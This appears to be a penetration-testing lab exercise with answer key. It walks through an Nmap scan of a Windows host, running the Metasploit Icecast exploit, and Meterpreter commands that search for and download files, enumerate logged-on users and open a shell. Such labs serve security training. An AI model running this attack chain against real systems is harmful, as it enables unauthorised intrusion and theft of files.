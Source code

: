Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


Perform a service and version scan using Nmap to determine which services are up and running:


Run the Nmap command that performs a service and version scan against the target.

Answer:
PORT     STATE  SERVICE        VERSION
25/tcp   open   smtp           SLmail smtpd 5.5.0.4433
135/tcp  open   msrpc          Microsoft Windows RPC
139/tcp  open   netbios-scan   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds?
3389/tcp open   ms-wbt-server  Microsoft Terminal Services
8000/tcp open   http           Icecast streaming media server
MAC Address: 00:15:5D:00:04:01 (Microsoft)
Service Info: Host: MSEDGEWIN10; OS: Windows; CPE: cpe:/o:microsoft:windows


From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:


Run the SearchSploit commands to show available Icecast exploits.

Answer:  ```searchsploit -t icecast```

Now that we know which exploits are available to us, let's start Metasploit:


Run the command that starts Metasploit:

Answer: ```msfconsole```


Search for the Icecast module and load it for use.


Run the command to search for the Icecast module:

Answer: ```search icecast```



Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.

Answer: ```use 0```


Set the RHOST to the target machine.


Run the command that sets the RHOST:

Answer: ```set RHOST 192.168.0.20```


Run the Icecast exploit.


Run the command that runs the Icecast exploit.

Answer: ```run```



Run the command that performs a search for the secretfile.txt on the target.

Answer: ```search -f *secretfile.txt```





You should now have a Meterpreter session open.


Run the command to performs a search for the recipe.txt on the target:

Answer: ```search -f *recipe.txt```

Bonus: Run the command that exfiltrates the recipe*.txt file:

Answer: ```download c:\Users\IEUser\Documents\Drinks.recipe.txt```


You can also use Meterpreter's local exploit suggester to find possible exploits.


Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

Answer:```run post/windows/gather/enum_logged_on_users```

B. Open a Meterpreter shell.

Answer: ```shell```

C. Run the command that displays the target's computer system information:

Answer: ```sysinfo```